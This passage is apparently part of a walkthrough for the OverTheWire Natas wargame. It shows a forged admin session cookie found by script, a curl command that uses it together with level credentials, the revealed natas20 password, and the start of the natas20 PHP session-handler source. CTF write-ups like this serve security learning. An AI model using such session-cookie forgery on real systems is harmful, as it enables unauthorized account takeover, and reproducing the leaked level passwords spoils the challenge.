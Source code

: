 ```
python3 natas19.py

admin id: 281 cookie: 3238312d61646d696e
```

Using `curl` to set cookie `PHPSESSID=3238312d61646d696e`:

```shell
curl --user natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs http://natas19.natas.labs.overthewire.org --cookie "PHPSESSID=3238312d61646d696e"
```

```
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

### natas20

```php
<?

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) { 
    //debug("MYOPEN $path $name"); 
    return true; 
}

/* we don't need this */
function myclose() { 
    //debug("MYCLOSE"); 
    return true; 
}

function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
```